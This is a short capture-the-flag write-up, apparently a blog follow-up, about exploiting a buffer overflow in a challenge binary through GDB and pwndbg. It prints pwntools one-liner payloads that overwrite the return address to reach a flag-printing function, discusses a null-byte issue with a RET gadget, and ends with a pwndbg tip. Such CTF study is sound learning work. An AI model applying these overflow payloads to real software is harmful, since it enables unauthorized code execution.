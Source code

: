 ## Post-post event

My previous write up has left some bad taste in my mouth, so I decided to explore more and fortunately learnt a bit more.

### Using GDB and bash command substitution

I decided to try out more payloads in GDB/pwndbg. As a reminder ~to myself~:

![image](https://user-images.githubusercontent.com/114584910/196032323-c5167c36-4da7-40cb-b092-9183a16e6e62.png)

I confirmed both of the following inputs worked (the flag is printed).

``` bash
r <<< $(python3 -c 'from pwn import *;print("-1\n"+"A"*120+p32(0x401348).decode("utf-8"))')
r <<< $(python3 -c 'from pwn import *;print("-1\n"+"A"*120+p64(0x401348).decode("utf-8"))')
```

However when I tried to use the *RET gadget* in 0x401342 and then going to 0x401343 - I hit a wall:

``` bash
r <<< $(python3 -c 'from pwn import *;print("-1\n"+"A"*120+(p64(0x401342)+p64(0x401343)).decode("utf-8"))')
```

Upon inspecting the stack:

![image](https://user-images.githubusercontent.com/114584910/196034092-c7bfe100-874d-404d-9101-33a49afd52bd.png)

I finally understood what the phrase **/bin/bash: warning: command substitution: ignored null byte in input** meant.

Then I found [this explanation on StackOverflow](https://stackoverflow.com/questions/42954927/why-is-filtering-null-bytes-in-gdb-where-does-not) and I changed the payload accordingly.

### Some tips on using pwndbg

I can't help but notice how pwndbg omits repeating lines, sometimes at the expense of hiding where rbp is. This is bad.
I couldn't find a full list of configs online, but I found the `set` command so I `set telescope-skip-repeating-val off`.

![image](https://user-images.githubusercontent.com/114584910/196037246-de046c92-5f63-4c7e-aee0-0b466f1a87d2.png)<br/>*(not the actual flag)*
